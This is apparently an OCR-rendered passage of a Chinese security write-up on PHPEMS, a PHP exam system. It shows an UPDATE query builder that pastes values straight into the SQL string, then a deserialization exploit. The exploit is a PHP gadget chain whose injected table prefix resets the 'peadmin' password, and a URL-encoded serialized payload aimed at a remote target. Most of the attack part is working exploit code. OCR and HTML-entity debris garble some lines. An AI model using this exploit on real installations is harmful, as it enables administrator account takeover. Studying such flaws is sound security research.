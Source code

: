 ```php
        else
        $db_groups = '';
        if(isset($args[4]))
        $db_orders = is_array($args[4])?implode(',',$args[4]):$args[4];
        else
        $db_orders = '';
        if(isset($args[5]))
        $db_limits = is_array($args[5])?implode(',',$args[5]):$args[5];
        else
        $db_limits = '';
        if($db_limits <span style="font-weight:bold;"> false &amp;&amp; $db_limits !</span> false)$db_limits = $this-&gt;_mostlimits;
        $db_groups = $db_groups?' GROUP BY '.$db_groups:'';
        $db_orders = $db_orders?' ORDER BY '.$db_orders:'';
        $sql = 'UPDATE '.$db_tables.' SET '.$parsql.' WHERE '.$db_query.$db_groups.$db_orders.' LIMIT '.$db_limits;
        return array('sql' =&gt; $sql, 'v' =&gt; $v);
    }
```

我们可以发现传入的数组虽然有用但是不可控，但是可以发现`$db_tables`​属性是该类初始化的赋值的，那么通过反序列化就可以进行初始化这个属性从而达到一个sql注入的效果(这种sql我感觉还是非常牛逼的，因为无视了预编译吧，直接赋值拼接的)

所以EXP参考EDI的EXP(让我写真写不出来)

```php
&lt;?php  
namespace PHPEMS{  
    class session{  
    public function __construct()  
    {  
        $this-&gt;sessionid="1111111";  
        $this-&gt;pdosql= new pdosql();  
        $this-&gt;db= new pepdo();  
        }  
    }  
    class pdosql  
    {  
        private $db ;  
        public function __construct()  
        {  
            $this-&gt;tablepre = 'x2_user set userpassword="e10adc3949ba59abbe56e057f20f883e" where username="peadmin";#--';  
            $this-&gt;db=new pepdo();  
        }  
    }  
    class pepdo  
    {  
        private $linkid = 0;  
    }  
}  

namespace {  
    $info = "%2595%259Cfs%25AF%25D9lon%2586%25D9%25C8%25D7%25D6%25A0%25A1%25A2%25CA%2594X%259D%25AC%259Ccg%259DS%2596i%259B%259B%25C7%2599%2598kp%2595%259Eg%2598%2598%25C7%25CA%259B%259A%2594lid%2593%2592%259B%2594i%25C3fh%2598c%2587p%25AC%259F%259Dn%2584%25A6%259E%25A7%25D9%259B%25A5%25A2%25CD%25D6%2585%259F%25D6qkn%2583ah%2599g%2592%255Ee%2591b%2587p%25AC%259F%2595j%259CU%25AC%2599%25D9%25A5%259F%25A3%25D2%25DA%25CC%25D1%25C8%25A3%259B%25A1%25CA%25A4X%259D%25A2%259Cal%2593g%259Bhk%2595%259Bm%259D%25B0"; // 远程环境
```